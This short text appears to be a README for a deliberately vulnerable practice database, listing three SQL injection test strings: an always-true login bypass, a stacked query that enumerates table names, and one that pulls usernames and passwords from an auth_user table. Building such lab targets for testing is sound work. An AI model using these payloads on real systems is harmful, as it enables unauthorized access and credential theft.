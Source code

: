 #Vulnerable Database

Test sql injection statements to use against the vulnerable database are:
  ' or 1=1-- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name,'4' as price, table_name as heavy_use  FROM information_schema.tables  WHERE table_schema='public' AND table_type='BASE TABLE' -- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name, username as price, password as heavy_use  FROM auth_user  -- - 
